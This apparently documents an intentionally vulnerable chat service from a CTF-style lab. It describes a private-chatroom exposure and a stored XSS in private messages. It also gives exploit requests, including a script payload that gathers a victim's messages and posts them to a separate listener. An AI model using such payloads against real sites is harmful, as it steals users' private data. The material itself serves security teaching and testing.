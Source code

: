 Service documentation
======================
# Vulnerabilities

## Access to private chatrooms

- Category: Misconfiguration
- Difficulty: Easy

Profiles list all chatrooms a user is a member of. This includes private chatrooms. Using the name of the chatroom, it is possible to join the chatroom.

## Cross-Site Scripting (XSS)

- Category: XSS
- Difficulty: Medium

The new private message popup is vulnerable to XSS. The message is not sanitized and can be used to execute arbitrary JavaScript code.

# Exploits

## Access to private chatrooms
    get http://localhost:3000/profiles/foo
    get http://localhost:3000/chatrooms/secret
## XSS
    post http://localhost:3000/messages
    body: {"recipient":"foo", "message":"<script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:6452/', {method: 'POST', body:'username=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>"}



